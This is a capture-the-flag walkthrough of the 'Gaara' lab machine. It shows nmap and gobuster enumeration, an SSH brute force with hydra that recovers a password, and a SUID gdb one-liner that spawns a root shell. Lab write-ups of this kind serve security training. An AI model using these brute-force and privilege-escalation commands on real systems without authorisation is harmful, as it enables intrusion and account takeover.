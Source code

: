 # PG Play - Gaara

#### Ip: 192.168.198.142
#### Name: Gaara
#### Difficulty: Easy
#### Community Rating: Easy
#### Date: 11.3.23

----------------------------------------------------------------------

### Enumeration

Nmap:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ sudo nmap -p- --min-rate 10000 192.168.198.142 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 15:39 CDT
Nmap scan report for 192.168.198.142
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

Site is just an image of an anime guy

Feroxbusted didnt find anything:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ feroxbuster --url http://192.168.198.142 -q
```

Trying gobuster with a bigger directory list. 


Finally found http://192.168.198.142/Cryoserver with a few entries at the bottom of the page:

```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.198.142        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.198.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/09 15:42:06 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
2024/10/09 16:07:00 Finished
=======================================
```

/Temari
/Kazekage
/iamGaara

Each enpoint is a long text document going over the history of the anime.

pgpl_gaara_words.png

We can copy and paste the contents of each endpoint into a .txt file to see if they contain the same amount of words:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc gaara.txt 
   28  2622 15953 gaara.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc kazekage.txt 
   40  2632 16131 kazekage.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc temari.txt  
   40  2632 16131 temari.txt
```

Interesting, it appears that /iamGaara is shorter than the other enpoints

### Exploitation / Foot Hold

Lets try using cewl to generate a wordlist for /iamGaara and /Temari


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ cewl http://192.168.198.142/iamGaara > cewl.txt

┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cewl http://192.168.198.142/Temari > cewl2.txt 
```

The enpoints above also appear to be usernames so I'll ad those to users.txt file

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cat users.txt 
temari
kazekage
iamgaara
gaara
```

After getting no hist against SSH with my cewl wordlists, I turned to trusty rockyou.txt.

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  ssh://192.168.198.142 
```

This finally cracks the credentials `gaara:iloveyou2`


We can now use this credential to login as user gaara:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ ssh gaara@192.168.198.142 
The authenticity of host '192.168.198.142 (192.168.198.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.198.142' (ED25519) to the list of known hosts.
gaara@192.168.198.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
```

We can now access the local.txt flag:

pgpl_gaara_local.png

### Privilege Escalation

Loading LinPeas onto the target, we see that `gdb` has the SUID bit set.

pgpl_gaara_lp2.pg

Lets head to GTFObins for the command we'll need to exploit this:

pgpl_gaara_gtfo.png

We can run it as shown:

```
gaara@Gaara:/tmp$ cd /usr/bin
gaara@Gaara:/usr/bin$ ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
--Type <RET> for more, q to quit, c to continue without paging--
Type "apropos word" to search for commands related to "word".
# whoami
root
```

We can now access the final flag:

pgpl_gaara_root.png

Thanks for following along!

-Ryan

-----------------------------------------
